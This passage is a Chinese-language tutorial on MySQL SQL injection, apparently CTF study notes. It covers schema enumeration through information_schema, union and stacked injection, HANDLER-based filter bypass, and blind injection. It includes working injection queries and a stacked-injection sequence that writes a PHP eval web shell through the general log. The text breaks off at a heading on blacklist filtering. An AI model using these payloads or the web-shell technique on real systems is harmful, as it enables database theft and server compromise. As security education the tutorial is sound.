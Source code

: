~~只会注入~~

sql注入是web的早期漏洞，常存在于各种早期的查询，到了现代，sql注入已经演化为了各种不同的数据库注入形式。

# 一、数据库介绍：
数据库是存放数据的仓库，是存放数据的仓库，
大多数的数据库为关系型数据库：
结构为：库->表->列->行
而sql语言就是一种用于数据库的语言，用于告诉数据库我需要什么，有什么需要查询。
而作为一门语言，sql注入就是一种很特别的文字游戏，而sql语句最搞笑的是：他放入其中的填充竟然具有代码效力，例如注释真的可以执行，引号括号之类的真的可能造成不闭合的报错;

一些常用的sql语句：
```sql
# 一些SQL注入常用的函数
version()                 # 查看数据库版本
database()                # 查看当前数据库名
user()                    # 查看当前数据库用户
system_user()             # 查看系统用户名
group_concat()            # 把数据库中的某列数据或某几列数据合并为一个字符串
@@datadir                 # 查看数据库路径
@@version_compile_os      # 查看操作系统
```

在 MySQL5.0 版本后，MySQL 默认在数据库中存放一个information_schema的数据库，该数据库中包含了当前系统中所有的数据库、表、列、索引、视图等相关的元数据信息，是MySql自身信息元数据的存储库，我们需要记住三个表名，分别是 schemata，tables，columns。

根据这一个特点，我们可以做一些操作，来盗取一些有意思的内容，比如，我们可以通过,联合查询等方式来直接查出其中的敏感数据。

# 二、注入方式介绍
## 1、联合注入查询
传统派，最最经典的sql注入方式，利用union语句，同时加上注释，将数据库中的敏感信息脱出来。
这里介绍联合注入的手法：
首先，进行测试，检测语句的包裹形态，检查在什么状态下，语句将出现报错，以此查看其中的包裹，可以利用万能密码字典fuzz一下，可以比较详细的知晓其中的过滤点，一些检测后出现的绕过将在后文中提及。
这里注意，注释的形式与提交信息的方式有关系，如果是一GET方式提交，注释将是 --+ ， 而如果以POST方式提交信息，则会以#为注释。
好，我们继续，

我们输入后看看回显在哪里，此时，查询的结果**通常**会显示在你的电脑上，没有的情况，先不要慌，因为还有很多种可能性。

即使完全没有回显，通过一些方式来判断一些内容的，而且，有一些查询是一定有结果的：

这其中的代表是列数判断的函数 order by ：

order by 1啊2啊3啊4啊…………

即使没有回显，这里在超出列数时是会出现报错的，**如果报错**那就需要考虑其他不同的注入手法了。
那么，假设此时我们已经拿到了列数的数量，在良好的情况下，我们会看见回显。
此时，你会知道回显的位置，在这个前提之下，我们开始一套常规注入的组合拳：
爆库，爆表，爆字段，爆数据
```SQL
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```
可以查询到表的名称，此时，进一步查询
```SQL
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
```
注意，在注入的过程之中，使用GROUP_CONCAT()函数是一个好习惯，因为有很多的查询只会输出一个结果，而不是多个结果，这个函数将大量的结果拼接进入了一个结果之中，以便能够正常的进行输出。如果此函数被过滤，首先考虑绕过，如若无法绕过，那么就使用limit函数将结果限制在一行，然后一行一行的看。
最后，使用相同的方式进行爆内容就可以了。

ok，最基础的联合注入就结束了。

## 2、堆叠注入：
堆叠注入的危害性相较于联合注入更大，如果说联合注入是纯看的话，堆叠注入给予了攻击者直接操作数据库的权利。
在这里先介绍sql相关的全局变量，sql的全局变量是一种特殊的变量。他决定了数据库中的部分有什么样的权限
比如secure_file_priv对读写文件有影响，若目录在这个变量之中，说明数据库对这个路径的文件有操作的权限。还有很多，这里不一一介绍了。
接下来介绍堆叠注入。
有如下的例子：
```SQL
 select phone,e_mail from guests;select username,password from users;
```
可以发现，在样例中，在一行里嵌套了两条语句，也就是说，在实战之中，我们将语句连起来执行了，因此，我们将不止是可以进行查询操作，而是更进一步能实现修改，增加，删除的操作，因而，我们可以使用这一漏洞实现木马的写入。
样例：
```sql
select "<?php phpinfo();?>" into outfile "/tmp/1.php"；
```
但是，通常情况之下secure_file_priv 被设置为NULL，那么是否是无法利用了？
这里，我们引入堆叠注入
堆叠注入的判断方法：
名称处加单引号报错，加双引号不报错，加单引号和分号不报错，说明存在堆叠注入
参考的使用方法：
```
set global general_log=on;#开启日志记录
set global general_log_file='C:/1.php';#设置日志保存路径
select '<?php eval($_POST['a']) ?>';#写入木马
```

简单来说。由于分号座位作为MySQL语句的结束符。如果支持多语句执行的情况下，可利用此方法执行其他的恶意语句。
但是，大多数的时候，因为api或者数据库引擎的不支持无法实现。

select的过滤绕过：MySQL除了可以使用select查询表中的数据，也可以使用handler语句，这条语句可以一行一行的浏览一个表中的数据，但是handler不具备select的所有功能，是mysql的专属语句，并没用包含到sql标准之中

其参考用法为：
```
# 打开一个表名为 tbl_name 的表的句柄
HANDLER tbl_name OPEN [ [AS] alias]

# 1、通过指定索引查看表，可以指定从索引那一行开始，通过 NEXT 继续浏览
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]

# 2、通过索引查看表
# FIRST: 获取第一行（索引最小的一行）
# NEXT: 获取下一行
# PREV: 获取上一行
# LAST: 获取最后一行（索引最大的一行）
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]

# 3、不通过索引查看表
# READ FIRST: 获取句柄的第一行
# READ NEXT: 依次获取其他行（当然也可以在获取句柄后直接使用获取第一行）
# 最后一行执行之后再执行 READ NEXT 会返回一个空的结果
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

# 关闭已打开的句柄
HANDLER tbl_name CLOSE
```
## 3、盲注
绝大多数的题目类型，很多时候题目的查询不会贵你一个确切的结果，只有一些不同的变化，这个时候，就只能等使用盲注的手法来解决问题，盲注的手法分为两种，布尔盲注和时间盲注。
### 布尔盲注
布尔盲注是通过类似回显状态（内容、长度）http响应状态码不同（200、500） http响应头变化（无条件冲顶像、设置cookie）错误代码等布尔状态的变化进行注入。
### 时间盲注
时间盲注是根据响应的时间来判断查询的成功失败与否的，当查询成功时，响应的时间会比查询失败的结果有所区别，或者我们可以通过构造payload进行判断（sleep语句）。
### 过滤黑名单的检测：
